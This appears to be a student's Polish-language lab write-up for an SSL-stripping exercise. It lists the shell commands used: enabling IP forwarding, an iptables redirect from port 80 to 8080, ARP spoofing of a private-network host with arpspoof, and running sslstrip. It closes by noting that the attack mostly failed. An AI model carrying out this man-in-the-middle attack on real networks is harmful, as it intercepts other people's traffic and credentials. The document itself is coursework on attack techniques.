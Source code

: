 # Zadanie 8 - SSLStriping

### Włączenie przekazywanie pakietów i przekierowywanie ruchu z 80/tcp na 8080/tcp
```shell
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```
### Wykonanie ataku ARP spoofing
```shell
arpspoof -i eth0 -t 192.168.179.135 192.168.179.2
```

### Uruchomienie skryptu sslstrip
```shell
sudo apt install sslstrip
ssltrip -l 8080
```

### Podczas ataku nie wyświetla się zawartość strony
Ruch na wireshirk przekazuje tylko favico
![c8e33ad250360b2312687187f374a60d.png](/_resources/c8e33ad250360b2312687187f374a60d.png)

